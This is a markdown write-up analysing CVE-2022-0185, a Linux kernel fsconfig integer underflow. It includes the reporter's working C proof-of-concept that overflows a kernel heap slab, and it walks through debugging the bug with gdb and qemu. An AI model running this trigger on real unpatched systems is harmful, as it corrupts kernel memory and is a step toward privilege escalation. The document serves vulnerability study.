



# POC

As explained in the README.md file, this vulnerability was caused by a unsigned number under flow, so here we will use `qemu` to prove the following code provided by the reporter of this vulnerability.[1]

## Environment Setup

To debug a linux kernel, we need to have the source code of the kernel, and also a compiled kernel image `bzImage`, as well as the `vmlinuz` which contains the symbols for gdb to use. We will use `qemu` to act as a hypervisor layer, for the details of how to prepare this, please refer to the folder **ramfs**!

## Code for POC

Thanks for the reporter of the CVE-2022-0185, they provide us with a piece of `c` code that we can testify our analysis:

```c
#define _GNU_SOURCE
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>
#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif
#define FSCONFIG_SET_STRING 1
#define fsopen(name, flags) syscall(__NR_fsopen, name, flags)
#define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux)
int main(void) { 
    char* key = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    int fd = 0;
    fd = fsopen("ext4", 0);
    if (fd < 0) {
        puts("Open failed!\n");
        exit(-1);
    }
    for (int i = 0; i < 130; i++) { 
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", key, 0);
    }
    return 0;
}
```

The `poc.c` file first open the `ext4` file descriptor then use `fsconfig` multiple times to perform the unsigned number underflow. Here we make some analysis on the `key-value` pairs that we are going to populate to the heap slab allocated:

```bash
# the key contained 33 characters!
char* key = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
# along with the ',' and '=' to seperate each key-value pair
# it will be 33+2=35 characters for each invoke of fsconfig
# the statement caused underflow is below:
if (len > PAGE_SIZE-2-size) 
# And 4095/35 = 117
# So we will observe the underflow after 117 times of fsconfig
```

Besides, i provide a `poc.sh` script to prepare the initramfs and then start a qemu environment. I want to provide the `vmlinuz` file, but it's too big, so you will have to compile the ubuntu source by yourself!

Also, there something to be noticed, the `fsopen` requires `CAP_SYS_ADMIN` privilege, in the exploit example, the author used `unshare` to get this, but here we only want to make the analyse easier, so in the `init` script for initramfs, I assigned the user with `root` privilege, which will then provide us with privilege to invoke the `fsopen`.

## Analysis

We first need to use the `poc.sh` to set up the initramfs and then start the qemu to prepare the debug environment:


Then we go to the folder that you compile your source code, if you are compiling the ubuntu, then it will be `/path-to-your-source-code//focal/debian/build/build-generic` to find the `vmlinux` debug symbols


Then we start gdb and load the `vmlinux` then we start a remote listen to the port 10086 to get access tot he `qemu` running previously! (1086 was assigned in the `init` script). Set up the break point at `legacy_parse_param` then we type continue to let the gdb wait for us to run the poc program on `qemu` so that it will trap at the break point!



After all set up all the steps, we start the `poc` program with `root` privilege, and we will trap at the break point for the **first time:**


 Then we examine some structs using gdb here: the slab in heap has not been allocated yet, because the `legacy_data` pointer has not been initialised, however, after this break point, 35 bytes of space in heap slab will be occupied:


Then according to our calculation, we need to skip 116 times of the breakpoints to fill the slab with 4095 bytes of data: (the first 35 bytes has already been occupied by the last time we stop at the breakpoint!)



Then we examine the heap memory with `x` command, notice that we skipped the previoud `0xff0` space!:



Now if we continue one more time to stop at the break point, and examine the same region of heap data, if extra 0x41 (character A) are written to later address, then the write out of bounds happened in heap memory!


As shown in the above screen shot, we get our poc result! This vulnerability has been abused to do a out of bound write in the heap memory of Linux kernel!

# Reference

[1] https://www.hackthebox.com/blog/CVE-2022-0185:_A_case_study

[2] https://github.com/chenaotian/CVE-2022-0185?tab=readme-ov-file